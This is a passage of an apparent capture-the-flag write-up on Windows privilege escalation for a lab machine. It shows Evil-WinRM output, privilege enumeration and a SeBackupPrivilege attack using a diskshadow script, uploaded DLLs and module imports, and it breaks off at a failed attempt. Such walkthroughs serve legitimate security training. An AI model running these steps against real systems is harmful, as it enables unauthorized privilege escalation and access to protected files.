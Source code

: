 ---OUTPUT---
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami
return\svc-printer
```
## Privilege Escalation
- On initial enumeration we check privileges:
	```bash
whoami /priv

---OUTPUT---
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

```
	- From these, there are some exploitable privileges based on this link:
		- https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
		- SeBackupPrivilege and SeRestorePrivilege
		- SeLoadDriverPrivilege
### Exploiting SeBackupPrivilege/SeRestorePrivilege (robocopy)
- we clone this git repo
	- https://github.com/k4sth4/SeBackupPrivilege
- We create the file vss.dsh
	```bash
cat vss.dsh

---OUTPUT---
set context persistent nowriters
set metadata c:\\programdata\\test.cab        
set verbose on
add volume c: alias test
create
expose %test% z:
```
- We upload our files to the target:
	```bash
cd C:\temp
upload vss.dsh
upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
```
- We import the modules and attempt the exploit with diskshadow (FAILS)
	```bash
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
diskshadow /s vss.dsh
